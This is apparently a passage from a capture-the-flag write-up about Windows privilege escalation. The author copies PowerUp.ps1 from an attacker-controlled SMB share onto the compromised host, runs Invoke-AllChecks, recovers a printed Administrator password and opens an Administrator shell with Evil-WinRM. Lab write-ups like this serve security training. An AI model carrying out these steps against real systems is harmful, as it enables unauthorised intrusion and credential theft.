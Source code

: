 I decided to run PowerUp.ps1 for enumeration.

I first started powershell sessions on the shell:

![](https://i.imgur.com/ueXGYXv.png)


I downloaded PowerUp.ps1 to **C:\Users\mssql-svc\app-data\local\temp** and ran it:

`xcopy \\10.10.14.17\share\PowerUp.ps1 .`

![](https://i.imgur.com/z2BwkNx.png)


`Invoke-AllChecks` showed me result:

![](https://i.imgur.com/HWl21e9.png)


At the bottom of the scan, I discovered Administrator credential: **MyUnclesAreMarioAndLuigi!!1!**

![](https://i.imgur.com/17Q8sjV.png)


### Evil-Winrm

Administrator shell was obtained:

![](https://i.imgur.com/4X0V3a7.png)
